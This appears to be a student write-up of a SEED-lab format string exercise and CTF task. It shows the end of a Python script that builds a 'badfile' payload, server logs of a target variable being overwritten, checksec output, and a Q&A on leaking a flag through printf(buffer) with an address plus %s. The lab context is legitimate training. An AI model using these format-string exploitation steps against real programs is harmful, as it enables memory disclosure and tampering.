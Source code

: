 ```python

content = content + bytearray(0x0 for i in range(N - len(content)))

with open('badfile', 'wb') as f:
  f.write(content)
```

```sh
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd420
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd348
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h11223344    1000 8049db5 80e5320 80e61c0ffffd420ffffd348 [...]
server-10.9.0.5 | The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

## CTF - Task 1

**Output of `checksec`**
```sh
[11/27/21]seed@VM:~/.../Semana6-Desafio1$ checksec program
[*] '/home/seed/labs/ctf6/Semana6-Desafio1/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

* What additional protections does the program have? What kinds of attacks are possible?
    * From the ouput of `checksec`, we can conclude that the program has Partial RELRO (Relocation Read-Only), a stack canary and NX (no execute) enabled. The stack canary prevents us from smashing the stack unless we can somehow guess or make the program leak this value. NX prevents us from executing custom shellcode that we have stored in the stack. However, we may still be able to exploit format string vulnerabilities.
* Where is the vulnerability?
    * Line 27 (`printf(buffer)`) contains a format string vulnerability, since the contents of `buffer`, obtained as user input in line 25, will be interpreted as a format string. Since `scanf` only reads 32 characters, our malicious format string will be limited to 32 bytes.
* What can you do with this vulnerability?
    * By exploiting this vulnerability we can print the contents of a variable from the stack, for example the flag. We can achieve this by crafting a special format string to use as the program's input.
* What is the functionality that allows you to obtain the flag?
    * We can place the flag address (`0x0804C060`, obtained using `gdb`) at the start of our payload and then place a `%s` specifier, such that `printf` will interpret the address we placed at the beginning (the flag address) as a string to be read, thus printing the flag.
